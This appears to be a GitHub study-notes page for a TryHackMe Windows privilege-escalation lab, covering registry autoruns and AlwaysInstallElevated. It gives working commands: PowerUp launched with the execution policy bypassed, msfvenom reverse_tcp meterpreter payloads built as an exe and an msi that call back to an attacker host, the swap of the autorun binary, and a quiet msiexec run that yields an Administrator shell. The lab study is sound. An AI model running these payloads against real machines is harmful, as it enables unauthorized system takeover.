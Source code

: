 # Escalation path: Registry

### Overview of TryHackMe Labs

Windows PrivEsc Lab - https://tryhackme.com/room/windowsprivescarena

Built with lpeworkshop - https://github.com/sagishahar/lpeworkshop

### Overview of Autoruns

Check autorun targets with Sysinternals `Autoruns64.exe`. This opens a GUI showing all Autorun entries in the
registry

The Logon tab shows programs that autorun at log on

![Logon](./pictures/registry-autorun.png)

We can check the permissions on any interesting autoruns with Sysinternals `accesschk64.exe`. We're looking 
for executables with `RW Everyone FILE_ALL_ACCESS` 

`C:\Path\To\Sysinternals\Accesschk\accesschk64.exe -vwu "C:\Program Files\Autorun Program"`

![Accesschk](./pictures/registry-accesschk.png)

We can also use PowerUp's `Invoke-AllChecks` to find modifiable registry autoruns

```
C:\>powershell -ep bypass
PS C:\>. .\PowerUp.ps1
PS C:\>Invoke-AllChecks
```

![PoweerUp Invoke-AllChecks](./pictures/registry-powerup.png)

### Escalation via Autorun

Create a meterpreter shell with msfvenom

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o program.exe`

Run `msfconsole` and start a multi/handler, then start a python HTTP server to upload the file onto the target

Use Internet Explorer to download and save the program.exe file, replacing the existing one in 
`C:\Program Files\Autorun Program`. If you try to move and replace the file it will trigger an Administrator 
log in, using IE to save the file as a replacement does not.

Disconnect from the RDP session then log in with the Administrator account, TCM. This will trigger the 
autorun, giving us an Administrator meterpreter shell

### AlwaysInstallElevated Overview and Escalation

Check the registry keys to see if AlwaysInstallElevated is enabled

```
C:\>reg query HKLM\Software\Policies\Microsoft\Windows\Installer

C:\>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

![AlwaysInstallElevated keys](./pictures/registry-alwaysinstallelevated.png)

0x1 means the value is true, AlwaysInstallElevated is enabled.

PowerUp Invoke-AllChecks will check for the registry keys and provides a function `Write-UserAddMSI` to 
generate a malicious UserAdd.msi file that can be used to create an Administrator user

Another option is to use msfvenom to generate a malicious .msi file that can excecute system commands or just 
create a reverse shell

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f msi -o setup.msi`

Upload it to the target, start a multi/handler listener, then run it with msiexec

`msiexec /quiet /qn /i C:\Path\To\File\setup.msi`

From a low privileged meterpreter shell we can use the `exploit/windows/local/always_install_elevated` module
to elevate privileges in an existing session

### Overview of regsvc ACL


